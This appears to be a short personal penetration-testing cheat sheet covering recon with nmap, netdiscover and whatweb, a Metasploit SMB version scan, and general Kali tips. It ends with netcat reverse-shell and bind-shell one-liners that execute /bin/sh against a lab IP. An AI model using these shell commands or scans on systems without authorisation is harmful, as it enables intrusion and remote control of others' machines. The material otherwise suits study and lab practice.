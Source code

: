 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### enable postgress for faster msf startup 
systemctl enable postgresql

### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)
Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 
nmap -sS 192.168.88.128
nmap -T4 -p- -A
-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB

msfconsole
search smb 
use auxiliary/scanner/smb/smb_version 
set RHOSTS 192.168.88.128
run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

